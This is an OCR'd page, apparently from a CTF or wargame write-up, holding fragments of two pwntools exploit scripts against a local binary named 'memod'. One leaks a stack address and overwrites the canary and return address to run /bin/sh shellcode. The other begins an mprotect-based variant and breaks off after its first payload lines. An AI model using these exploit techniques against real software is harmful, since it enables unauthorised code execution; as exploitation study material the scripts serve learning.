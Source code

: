 ``` python
    payload += p32(environ)             # argument #1
    payload += p32(elf.symbols['main']) # ret #3
    s.sendline(payload)
    r = s.recv(1024)
    stack = u32(r[0:4])
    log.info(f"stack : {hex(stack)}")

    # execute shellcode
    s.send(b"3" * 33)
    s.recv(1024)

    payload = asm(shellcraft.execve("/bin/sh", 0, 0))   # shellcode
    payload += b"E" * (0x124 - len(payload))            # dummy
    payload += b"\x00\x00\x00\x00"                      # canary
    payload += b"FFFF"                                  # sfp
    payload += p32(stack - 0x1cc)                       # ret #1 (&shellcode)
    s.sendline(payload)

    s.interactive()

if __name__=='__main__':
    main()
```

### payload using mprotect
``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
import sys

DEBUG = True
BINARY = "memod"
LIBRARY = "libc.so.6"

bp = {
    'read_of_main' : 0x08048703,
    'fgets_of_main' : 0x804875a,
    'canary_backup' : 0x08049b2c,
    'end_of_main' : 0x080487ce,
    'mprotect' : 0xf7e9f020,
}

gs = f'''
b *{bp['end_of_main']}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def main():
    if(len(sys.argv) > 1):
        s = remote("0.0.0.0", int(sys.argv[1]))
    else:
        s = process(BINARY)
        if DEBUG:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    # leak libc
    s.send(b"1" * 33)                   # overwrite fd
    s.recv(1024)

    payload = b"A" * 0x124              # dummy
```